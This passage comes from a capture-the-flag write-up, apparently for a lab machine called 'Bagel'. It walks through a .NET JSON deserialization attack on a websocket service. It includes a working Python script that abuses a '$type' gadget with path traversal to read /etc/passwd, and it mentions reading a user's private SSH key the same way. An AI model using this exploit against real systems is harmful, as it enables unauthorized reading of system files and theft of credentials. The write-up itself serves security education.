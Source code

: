 ### Deserialization

We know that this is a .NET related JSON deserialisation exploit based on the DLL. This resource was particularly helpful in creating the payload:

{% embed url="https://systemweakness.com/exploiting-json-serialization-in-net-core-694c111faa15" %}

```json
{
  "$type": "System.IO.FileInfo, System.IO.FileSystem",
  "fileName": "test.txt",
  "attributes": 2
}
```

For our payload, we would first need to add the the 'RemoveOrder' function, then nest our payload within it. Since the TypeNameHandling = 4, the `$type` variable has to call the root object's type, in this case it would be `bagel_server.file,bagel` as per the DLL object names.&#x20;

Afterwards, we can call the `ReadFile` function to read whatever file we want.&#x20;

This was my code and output: (took a while of testing)

```python
import websocket,json

ws = websocket.WebSocket()
ws.connect("ws://10.129.150.229:5000/")
order = {"RemoveOrder":{"$type":"bagel_server.File,bagel", "ReadFile":"../../../../etc/passwd"}}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(result)
```

<figure><img src="../../../.gitbook/assets/image (5) (2) (3) (1).png" alt=""><figcaption></figcaption></figure>

This works! Now, we can attempt to read the user flag and the private SSH key of the user `phil`.

<figure><img src="../../../.gitbook/assets/image (2) (3) (4).png" alt=""><figcaption></figcaption></figure>
